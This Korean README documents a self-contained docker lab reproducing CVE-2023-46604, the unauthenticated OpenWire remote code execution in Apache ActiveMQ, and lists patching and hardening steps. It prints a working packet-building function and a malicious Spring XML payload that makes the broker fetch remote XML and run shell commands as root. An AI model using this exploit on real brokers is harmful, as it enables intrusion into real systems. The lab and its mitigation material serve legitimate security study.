




# CVE-2023-46604 — Apache ActiveMQ OpenWire 원격 코드 실행(RCE)

**Contributors**

-   [김예준(@yejunkim2000)](https://github.com/yejunkim2000)

<br/>

## 1. 취약점 요약

-   Apache ActiveMQ 의 **OpenWire 프로토콜(기본 포트 61616)** 마샬링 처리에 존재하는 원격 코드 실행 취약점입니다.
-   인증되지 않은 원격 공격자가 조작된 OpenWire 패킷 하나만 보내면, 브로커가 **임의의 클래스를 String 인자 하나로 인스턴스화**하게 만들 수 있습니다.
-   이를 이용해 `org.springframework.context.support.ClassPathXmlApplicationContext` 를 공격자가 호스팅한 Spring XML 의 URL 로 인스턴스화하면, 그 XML 안의 bean(`ProcessBuilder`)이 실행되어 **브로커 권한(대개 root)으로 임의 셸 명령이 실행**됩니다.
-   2023년 10월 공개 직후부터 HelloKitty·TellYouThePass 등 **랜섬웨어 조직이 실제로 대량 악용**한 실전 취약점입니다.
-   CVSS 3.1 Base Score: **9.8 (Critical)** — `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` (NVD 는 Scope=Changed 기준 **10.0** 으로 평가)

**참고 자료**

-   https://nvd.nist.gov/vuln/detail/CVE-2023-46604
-   https://activemq.apache.org/security-advisories.data/CVE-2023-46604-announcement.txt
-   https://github.com/apache/activemq/commit/3020a67 (수정 커밋 — validateIsThrowable 검증 추가)
-   https://www.rapid7.com/blog/post/2023/11/01/etr-suspected-exploitation-of-apache-activemq-cve-2023-46604/

<br/>

## 2. ActiveMQ / 취약점 배경

-   **Apache ActiveMQ** 는 Java 기반의 대표적인 오픈소스 **메시지 브로커(MOM)** 로, JMS·AMQP·STOMP·MQTT·OpenWire 등 여러 프로토콜을 지원합니다.
-   **OpenWire** 는 ActiveMQ 의 기본 바이너리 프로토콜로, 클라이언트-브로커 간 명령(Command) 객체를 직렬화/역직렬화하여 주고받습니다. 기본적으로 TCP **61616** 포트에서 인증 없이 연결을 허용합니다.
-   문제의 핵심은 예외(Exception)를 역직렬화하는 `org.apache.activemq.openwire.v*.BaseDataStreamMarshaller.createThrowable()` 함수입니다.

```java
// 취약한 코드 (요지)
protected Throwable createThrowable(String className, String message) {
    Class clazz = Class.forName(className, false, this.getClass().getClassLoader());
    Constructor constructor = clazz.getConstructor(new Class[]{String.class});
    return (Throwable) constructor.newInstance(new Object[]{message});  // ← 여기서 이미 실행
}
```

-   `className` 과 `message` 는 **공격자가 보낸 패킷에서 그대로** 읽어옵니다. 함수는 이 클래스가 실제로 `Throwable` 인지 **검증하지 않은 채** 생성자를 호출합니다.
-   `(Throwable)` 캐스팅은 마지막에 이루어지므로, `ClassPathXmlApplicationContext` 처럼 Throwable 이 아닌 클래스를 넣어도 **`newInstance()` 단계에서 객체 생성(=악성 XML 로드 및 명령 실행)이 먼저 끝난 뒤** 캐스팅 예외가 발생합니다. 즉 캐스팅 실패는 공격에 영향을 주지 않습니다.
-   ActiveMQ 클래스패스에는 Spring 이 포함되어 있어 `ClassPathXmlApplicationContext` 를 곧바로 가젯으로 사용할 수 있습니다. 이 클래스는 생성자에 전달된 위치 문자열을 Spring ResourceLoader 로 해석하며, `http://` URL 도 그대로 로드합니다.

**영향받는 버전**

| 브랜치 | 취약 | 수정 버전 |
|---|---|---|
| 5.18.x | 5.18.0 ~ 5.18.2 | **5.18.3** |
| 5.17.x | 5.17.0 ~ 5.17.5 | **5.17.6** |
| 5.16.x | 5.16.0 ~ 5.16.6 | **5.16.7** |
| 5.15.x | ~ 5.15.15 | **5.15.16** |

> 본 실습은 취약 버전인 **ActiveMQ 5.17.3** 으로 구성합니다.

<br/>

## 3. 환경 구성

과제 요건(“docker compose 하나로 완성 / 외부 취약 이미지 의존 금지”)에 맞춰, 취약한 ActiveMQ 를 **공식 아카이브에서 직접 설치**해 빌드하고, 악성 XML 을 서빙하는 서버까지 하나의 compose 로 묶어 **완전 self-contained** 로 구성했습니다.

### 디렉토리 구조

```
CVE-2023-46604/
├── docker-compose.yml     # activemq(취약 브로커) + poc-server(악성 XML 호스팅)
├── Dockerfile             # eclipse-temurin:11-jre + ActiveMQ 5.17.3 직접 설치
├── poc.py                 # OpenWire RCE 익스플로잇 (패킷 생성/전송)
├── poc-xml/
│   └── poc.xml            # 악성 Spring XML (ProcessBuilder 로 명령 실행)
├── 1.png ~ 4.png          # 실행 결과 스크린샷
└── README.md
```

### 구성 요소

-   **`activemq` 서비스** — `eclipse-temurin:11-jre-jammy` 위에 Apache 아카이브에서 `apache-activemq-5.17.3-bin.tar.gz` 를 받아 설치. 포트 `61616`(OpenWire), `8161`(웹 콘솔) 노출.
-   **`poc-server` 서비스** — `python:3.11-slim` 이 `poc-xml/` 을 `http://poc-server:8000` 으로 서빙. 브로커가 **내부 도커 네트워크 이름(`poc-server`)** 으로 XML 을 가져가므로, 호스트의 별도 웹서버나 `host.docker.internal` 없이 재현이 결정적으로 동작합니다.

### 실행 (복붙 그대로)

```bash
# 1) 환경 기동 (최초 1회는 ActiveMQ 다운로드/빌드로 1~2분 소요)
docker compose up -d --build

# 2) 브로커가 뜰 때까지 대기 후 상태 확인
docker compose ps
docker compose logs activemq | grep "Connector openwire started"
```



<br/>

## 4. 취약 조건

다음 조건이 모두 성립할 때 인증 없이 원격 코드 실행이 가능합니다.

1.  **취약 버전** — ActiveMQ < 5.15.16 / 5.16.7 / 5.17.6 / 5.18.3 (`createThrowable` 에 클래스 검증이 없는 버전).
2.  **OpenWire 포트 노출** — 61616 이 공격자에게 도달 가능(기본 설정에서 `0.0.0.0` 바인딩, 인증 불필요).
3.  **가젯 클래스 존재** — 클래스패스에 `spring-context`(`ClassPathXmlApplicationContext`)가 포함(ActiveMQ 기본 배포에 포함됨).
4.  **아웃바운드 접근** — 브로커가 악성 XML URL(예: `http://poc-server:8000/poc.xml`)에 접근 가능. 본 실습에서는 compose 내부 네트워크로 항상 충족.

> 이 취약점은 **인증(PR:N)·사용자 상호작용(UI:N) 없이 원격(AV:N)** 에서 트리거되며, 성공 시 브로커 프로세스 권한(본 환경에서는 **root**)을 획득합니다.

<br/>

## 5. 재현 절차

### (1) 익스플로잇 전, 증거 파일이 없음을 확인

```bash
docker compose exec activemq ls -l /tmp/rce_proof.txt   # No such file
```

### (2) PoC 실행 — OpenWire 패킷 전송

`poc.py` 는 OpenWire `ExceptionResponse`(dataType=31) 패킷을 loose 인코딩으로 만들어, `className = ClassPathXmlApplicationContext`, `message = 악성 XML URL` 로 채워 전송합니다.

```bash
python poc.py 127.0.0.1 61616 http://poc-server:8000/poc.xml
```



브로커는 패킷을 역직렬화하며 `new ClassPathXmlApplicationContext("http://poc-server:8000/poc.xml")` 를 호출 → 악성 XML 을 로드 → `ProcessBuilder` bean 이 실행됩니다.

### (3) 코드 실행 결과 확인

```bash
docker compose exec activemq cat /tmp/rce_proof.txt
```



`/tmp/rce_proof.txt` 에 `uid=0(root)` 로 실행된 `id` 결과가 기록되어 있으면 **RCE 성공**입니다.

### (4) 악성 XML 이 실제로 로드되었는지 교차 검증

```bash
docker compose logs poc-server | grep GET
```



브로커 컨테이너 IP 가 `GET /poc.xml 200` 으로 XML 을 가져간 로그가 남습니다. (참고: 브로커 로그에는 예외조차 남지 않아 **탐지 없이 조용히 악용**되는 특징이 있습니다.)

### 정리 (환경 종료)

```bash
docker compose down --rmi local -v
```

<br/>

## 6. PoC 코드

### `poc.py` — OpenWire 패킷 구조

OpenWire loose 인코딩 프레임: `[4바이트 전체 길이][dataType][본문]`

```
dataType            = 0x1f  (31, EXCEPTION_RESPONSE)
commandId(4)        = 00 00 00 00
responseRequired(1) = 00
correlationId(4)    = 00 00 00 00
throwable != null(1)= 01
className != null(1)= 01
className           = UTF( "org.springframework...ClassPathXmlApplicationContext" )
message != null(1)  = 01
message             = UTF( "http://poc-server:8000/poc.xml" )
```

```python
def build_packet(class_name: str, message: str) -> bytes:
    cls = class_name.encode("utf-8")
    msg = message.encode("utf-8")
    body  = b"\x1f"                       # dataType = 31 (EXCEPTION_RESPONSE)
    body += b"\x00\x00\x00\x00"           # commandId
    body += b"\x00"                       # responseRequired = false
    body += b"\x00\x00\x00\x00"           # correlationId
    body += b"\x01"                       # throwable != null
    body += b"\x01"                       # className != null
    body += struct.pack(">H", len(cls)) + cls   # readUTF(className)
    body += b"\x01"                       # message != null
    body += struct.pack(">H", len(msg)) + msg   # readUTF(message = XML URL)
    return struct.pack(">I", len(body)) + body
```

> 전체 코드는 [`poc.py`](poc.py) 참고. 갓 연결된 소켓의 첫 패킷이므로 브로커는 아직 tight 인코딩을 협상하지 않아, 위와 같은 loose 인코딩이 그대로 처리됩니다.

### `poc-xml/poc.xml` — 실행될 악성 Spring 빈

```xml
<beans ...>
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
            <list>
                <value>/bin/bash</value>
                <value>-c</value>
                <value>id &gt; /tmp/rce_proof.txt 2&gt;&amp;1; uname -a &gt;&gt; /tmp/rce_proof.txt; touch /tmp/pwned_by_cve_2023_46604</value>
            </list>
        </constructor-arg>
    </bean>
</beans>
```

`init-method="start"` 로 bean 생성 시 `ProcessBuilder.start()` 가 자동 호출되어 명령이 실행됩니다. `<value>` 안의 명령만 바꾸면 임의 명령(리버스 셸 등)으로 확장 가능합니다.

<br/>

## 7. 실행 결과

| 단계 | 스크린샷 | 결과 |
|---|---|---|
| 환경 기동 | `1.png` | ActiveMQ 5.17.3, OpenWire 61616 정상 리스닝 |
| PoC 전송 | `2.png` | 117바이트 OpenWire 패킷 전송, 브로커 응답 수신 |
| 코드 실행 | `3.png` | `/tmp/rce_proof.txt` 에 `uid=0(root)` 기록 → **RCE 성공** |
| XML 로드 | `4.png` | poc-server 에 `GET /poc.xml 200` — 브로커가 악성 XML fetch |

**재현성**: 이미지/볼륨을 모두 삭제한 깨끗한 상태에서 `docker compose up -d --build` → `python poc.py ...` 만으로 위 결과가 결정적으로 재현됨을 확인했습니다.

<br/>

## 8. 대응 방안

1.  **패치 적용(근본 대응)** — ActiveMQ 를 **5.15.16 / 5.16.7 / 5.17.6 / 5.18.3 이상**으로 업그레이드합니다. 수정 버전은 `createThrowable` 에서 대상 클래스가 실제 `Throwable` 인지 검증(`validateIsThrowable`)하도록 변경되어, Throwable 이 아닌 임의 클래스 인스턴스화를 차단합니다.
2.  **OpenWire 포트 노출 최소화** — 61616 을 외부에 직접 노출하지 말고, 방화벽/보안그룹으로 신뢰된 애플리케이션 대역에서만 접근하도록 제한합니다.
3.  **인증 활성화** — `conf/activemq.xml` 의 `simpleAuthenticationPlugin`/`jaasAuthenticationPlugin` 으로 브로커 접속에 인증을 요구합니다. (단, 인증만으로 이 취약점을 완전히 막지는 못하므로 패치가 우선입니다.)
4.  **최소 권한 실행** — 브로커를 root 가 아닌 전용 비특권 계정으로 실행하여, 침해 시 영향(본 실습에서 root 획득)을 축소합니다.
5.  **아웃바운드 통제** — 브로커 서버가 임의의 외부 HTTP 로 나가지 못하도록 egress 를 제한하면, 원격 XML 로드형 공격의 성공률을 낮출 수 있습니다.

<br/>

## 9. 위험도(CVSS 3.1)

| 항목 | 값 | 설명 |
|---|---|---|
| Attack Vector (AV) | Network | 원격 61616 포트로 트리거 |
| Attack Complexity (AC) | Low | 단일 패킷, 특별한 선행조건 없음 |
| Privileges Required (PR) | None | 인증 불필요 |
| User Interaction (UI) | None | 사용자 개입 불필요 |
| Confidentiality/Integrity/Availability | High/High/High | 브로커 권한 임의 코드 실행 |
| **Base Score** | **9.8 (Critical)** | `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` (NVD: Scope=Changed 기준 10.0) |
